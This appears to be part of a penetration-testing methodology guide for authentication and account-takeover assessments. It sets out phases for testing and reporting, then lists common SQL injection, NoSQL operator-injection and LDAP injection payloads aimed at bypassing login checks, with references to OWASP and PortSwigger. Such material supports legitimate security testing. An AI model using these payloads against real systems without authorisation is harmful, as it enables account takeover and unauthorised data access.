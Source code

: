 ### Phase 2: Vulnerability Assessment
1. Test authentication bypass
2. Test password reset vulnerabilities
3. Test session management
4. Test MFA implementation

### Phase 3: Exploitation
1. Attempt account takeover
2. Document findings
3. Test impact and scope
4. Report vulnerabilities

---

## Common Payloads

### SQL Injection Payloads
```sql
' OR '1'='1'--
' OR 1=1--
' UNION SELECT 1,2,3--
' AND (SELECT 6377 FROM (SELECT(SLEEP(5)))hLTl)--
```

### NoSQL Injection Payloads
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}
{"username": {"$gt": ""}, "password": {"$gt": ""}}
```

### LDAP Injection Payloads
```
*)(uid=*))(|(uid=*
admin)(&(password=*)
*)(|(password=*)
```

---

## References
- [OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)
- [PortSwigger Authentication Bypass](https://portswigger.net/web-security/authentication)
- [HackerOne ATO Reports](https://hackerone.com/reports?search=account%20takeover)
- [Bug Bounty Methodology](https://github.com/OWASP/wstg)

